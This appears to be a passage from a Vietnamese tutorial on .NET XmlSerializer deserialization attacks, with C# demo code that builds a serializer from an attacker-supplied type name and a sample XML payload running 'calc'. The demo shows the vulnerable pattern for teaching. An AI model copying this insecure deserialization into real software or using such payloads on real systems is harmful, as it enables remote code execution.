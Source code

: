 Điều kiện:

* Bắt buộc phải điều khiển được kiểu dữ liệu ở constructor vào của `XmlSerializer`. Tức là các kiểu dữ liệu dẫn đến gadget phải được truyền vào thuộc tính `XmlSerializer.mapping`

Demo code:

```C#
using System;
using System.IO;
using System.Text;
using System.Xml.Serialization;

namespace XmlSerNs
{
	[Serializable]
	public class XmlSer
	{
		public XmlSer(){}

		public XmlSer(int id = 0, string name = "name")
		{
			this.id = id;
			this.name = name;
		}

		public object name { get; set; }

		public int id { get; set; }
	}

	public class Go
	{
		public static string Serial(MemoryStream stream)
		{
			XmlSer a = new XmlSer(1, "calc");
			XmlSerializer format = new XmlSerializer(typeof(XmlSer));
			format.Serialize(stream, a);
			return Encoding.UTF8.GetString(stream.ToArray());
		}

		public static T Deserial<T>(string value, string type) where T : class
		{
			// type = "RCENs.RCE";
			byte[] buffer = Encoding.UTF8.GetBytes(value);
			XmlSerializer format = new XmlSerializer(Type.GetType(type));
			MemoryStream serialStream = new MemoryStream(buffer);
			object a = format.Deserialize(serialStream);
			return a as T;
		}
	}
}

// "<?xml version=\"1.0\"?><RCE xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"><cmd>calc</cmd></RCE>"
```
